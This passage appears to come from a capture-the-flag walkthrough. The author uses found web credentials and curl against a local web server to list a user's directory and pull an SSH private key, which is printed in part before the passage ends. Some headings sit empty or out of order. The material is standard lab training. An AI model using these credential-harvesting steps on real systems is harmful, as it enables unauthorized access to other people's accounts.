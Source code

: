 Putting the trailing slash on the url caused it to give me a directory listing

id\_rsa sounded quite interesting

```text
$ curl -u webapi_user:iamthebest http://localhost:3001/~r.michaels/id_rsa
sh: 48: Syntax error: redirection unexpected
$ curl -u webapi_user:iamthebest http://localhost:3001/~r.michaels/id_rsa/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   245  100   245    0     0  81666      0 --:--:-- --:--:-- --:--:-- 81666
<html><head><title>500 Internal Error</title></head>
<body><h1>500 Internal Error</h1>
~r.michaels/id_rsa/index.html: <pre>An error occured on the server</pre>
<hr><address><a href="//localhost:3001/">localhost:3001</a></address>
</body></html>
```

However, trying to retrieve the `id_rsa` file gave some errors.

```text
$ curl -u webapi_user:iamthebest ftp://localhost:3001/~r.michaels/id_rsa
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:--  0:00:30 --:--:--     0
curl: (56) response reading failed
```

Next I tried switching protocols to use ftp:// rather than http:// but that failed as well

### Further enumeration

### Finding user creds

```text
$ curl -u webapi_user:iamthebest localhost:3001/~r.michaels/id_rsa
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2610  100  2610    0     0   637k      0 --:--:-- --:--:-- --:--:--  637k
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvXxJBbm4VKcT2HABKV2Kzh9GcatzEJRyvv4AAalt349ncfDkMfFB
Icxo9PpLUYzecwdU3LqJlzjFga3kG7VdSEWm+C1fiI4LRwv/iRKyPPvFGTVWvxDXFTKWXh
0DpaB9XVjggYHMr0dbYcSF2V5GMfIyxHQ8vGAE+QeW9I0Z2nl54ar/I/j7c87SY59uRnHQ
kzRXevtPSUXxytfuHYr1Ie1YpGpdKqYrYjevaQR5CAFdXPobMSxpNxFnPyyTFhAbzQuchD
ryXEuMkQOxsqeavnzonomJSuJMIh4ym7NkfQ3eKaPdwbwpiLMZoNReUkBqvsvSBpANVuyK
BNUj4JWjBpo85lrGqB+NG2MuySTtfS8lXwDvNtk/DB3ZSg5OFoL0LKZeCeaE6vXQR5h9t8
3CEdSO8yVrcYMPlzVRBcHp00DdLk4cCtqj+diZmR8MrXokSR8y5XqD3/IdH5+zj1BTHZXE
pXXqVFFB7Jae+LtuZ3XTESrVnpvBY48YRkQXAmMVAAAFkBjYH6gY2B+oAAAAB3NzaC1yc2
EAAAGBAL18SQW5uFSnE9hwASldis4fRnGrcxCUcr7+AAGpbd+PZ3Hw5DHxQSHMaPT6S1GM
3nMHVNy6iZc4xYGt5Bu1XUhFpvgtX4iOC0cL/4kSsjz7xRk1Vr8Q1xUyll4dA6WgfV1Y4I
GBzK9HW2HEhdleRjHyMsR0PLxgBPkHlvSNGdp5eeGq/yP4+3PO0mOfbkZx0JM0V3r7T0lF
8crX7h2K9SHtWKRqXSqmK2I3r2kEeQgBXVz6GzEsaTcRZz8skxYQG80LnIQ68lxLjJEDsb
Knmr586J6JiUriTCIeMpuzZH0N3imj3cG8KYizGaDUXlJAar7L0gaQDVbsigTVI+CVowaa
POZaxqgfjRtjLskk7X0vJV8A7zbZPwwd2UoOThaC9CymXgnmhOr10EeYfbfNwhHUjvMla3
GDD5c1UQXB6dNA3S5OHArao/nYmZkfDK16JEkfMuV6g9/yHR+fs49QUx2VxKV16lRRQeyW
nvi7bmd10xEq1Z6bwWOPGEZEFwJjFQAAAAMBAAEAAAGAStrodgySV07RtjU5IEBF73vHdm
xGvowGcJEjK4TlVOXv9cE2RMyL8HAyHmUqkALYdhS1X6WJaWYSEFLDxHZ3bW+msHAsR2Pl
7KE+x8XNB+5mRLkflcdvUH51jKRlpm6qV9AekMrYM347CXp7bg2iKWUGzTkmLTy5ei+XYP
DE/9vxXEcTGADqRSu1TYnUJJwdy6lnzbut7MJm7L004hLdGBQNapZiS9DtXpWlBBWyQolX
er2LNHfY8No9MWXIjXS6+MATUH27TttEgQY3LVztY0TRXeHgmC1fdt0yhW2eV/Wx+oVG6n
NdBeFEuz/BBQkgVE7Fk9gYKGj+woMKzO+L8eDll0QFi+GNtugXN4FiduwI1w1DPp+W6+su
o624DqUT47mcbxulMkA+XCXMOIEFvdfUfmkCs/ej64m7OsRaIs8Xzv2mb3ER2ZBDXe19i8
Pm/+ofP8HaHlCnc9jEDfzDN83HX9CjZFYQ4n1KwOrvZbPM1+Y5No3yKq+tKdzUsiwZAAAA
wFXoX8cQH66j83Tup9oYNSzXw7Ft8TgxKtKk76lAYcbITP/wQhjnZcfUXn0WDQKCbVnOp6
LmyabN2lPPD3zRtRj5O/sLee68xZHr09I/Uiwj+mvBHzVe3bvLL0zMLBxCKd0J++i3FwOv
+ztOM/3WmmlsERG2GOcFPxz0L2uVFve8PtNpJvy3MxaYl/zwZKkvIXtqu+WXXpFxXOP9qc
```